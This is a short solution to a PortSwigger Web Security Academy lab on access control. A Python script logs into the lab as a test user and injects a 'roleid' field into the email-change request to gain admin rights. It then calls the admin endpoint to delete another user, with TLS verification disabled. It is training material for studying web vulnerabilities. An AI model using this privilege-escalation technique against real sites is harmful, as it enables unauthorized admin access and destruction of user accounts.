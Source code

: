 # Lab: User role can be modified in user profile

Link to lab: https://portswigger.net/web-security/access-control/lab-user-role-can-be-modified-in-user-profile

## Solution

```python
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup


url = 'https://0a9400b503486fc9c6c149440023008c.web-security-academy.net/'

session = requests.Session()

response = session.get(
    url + 'login',
    verify=False,
)

data = {
    'username': 'wiener',
    'password': 'peter',
}

response = session.post(
    url + 'login',
    data=data,
    verify=False,
    allow_redirects=False
)

session = response.headers['Set-Cookie'].split(';')[0].split('=')[1]


cookies = {
    'session': session
}

data = {
    "email":"wiener@normal-user.net",
    "roleid":2
}

response = requests.post(
    url + 'my-account/change-email',
    cookies=cookies,
    data=data,
    verify=False,
)

response = requests.get(
    url + 'admin/delete?username=carlos',
    cookies=cookies,
    verify= False
)

print(response.text)
```
